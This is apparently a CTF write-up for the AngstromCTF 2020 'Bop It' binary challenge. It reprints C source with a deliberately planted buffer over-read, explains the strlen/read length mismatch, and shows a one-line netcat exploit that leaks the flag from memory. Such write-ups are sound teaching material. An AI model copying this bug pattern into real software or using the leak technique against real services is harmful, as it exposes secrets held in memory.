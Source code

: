 ```yaml
---
layout: post
title: AngstromCTF 2020 - Bop It
excerpt: "Writeup for memory leak challenge from AngstromCTF 2020"
categories: [pwn angstromctf]
---
```


Bop It was the third challenge in the Binary section of AngstromCTF. Although the bug was fairly simple, the challenge only accumulated 162 solves. The challenge supplies us with an executable and some source code (below).

{% highlight c %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

	srand(time(NULL));

	char c;
	char *action = actions[rand()%4];
	write(1, action, strlen(action));
	while ((c = getchar()) != EOF) {
		if (!strcmp(action, actions[3])) {
			char guess[256];
			guess[0] = c;
			int guessLen = read(0, guess+1, 255)+1; //add to already entered char
			guess[guessLen-1] = 0; //remove newline
			char flag[32];
			FILE *f = fopen("flag.txt", "rb");
			int r = fread(flag, 1, 32, f);
			flag[r] = 0; //null terminate
			if (strncmp(guess, flag, strlen(flag))) {
				char wrong[strlen(guess)+35];
				wrong[0] = 0; //string is empty intially
				strncat(wrong, guess, guessLen);
				strncat(wrong, " was wrong. Better luck next time!\n", 35);
				write(1, wrong, guessLen+35);
				exit(0);
			}
		} else if (c != action[0]) {
			char wrong[64] = "_ was wrong. What you wanted was _!\n";
			wrong[0] = c; //user inputted char
			wrong[strlen(wrong)-3] = action[0]; //correct char
			write(1, wrong, strlen(wrong));
			getchar(); //so there's no leftover newline
			exit(0);
		} else { getchar(); }
		action = actions[rand()%4];
		write(1, action, strlen(action));
	}
}
{% endhighlight %}

Upon first glance the code looks somewhat complicated. After some trial and error though, it is clear that there is a bug in the `write` call when action is "Flag It!". The variable `wrong` is initialized with a size of `strlen(guess)+35`, and is written to stdout. The problem is that the strlen function stops at null bytes, but the guessLen variable will not (it is set from the read function). Whener guessLen+35 gets larger than the `wrong` variable to be written, `write` will continue to give data after the end of the `wrong` buffer, and memory will be leaked. Seeing that the flag has been opened whenever this write is called reassures us that we are on the right track.

Since the exploit is simple I used inline python. You can see that it takes a few times before hitting the "Flag It!" action, but once we do memory is leaked.

```
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Twist it!
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Flag it!
 was wrong. Better luck next time!
?GXU?GXU"?GXUactf{bopp1ty_bop_bOp_b0p}?"?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA~      root@9903d51849b1 /pwn# 
```

In this string we can see `actf{bopp1ty_bop_bOp_b0p}` which is the flag to the challenge!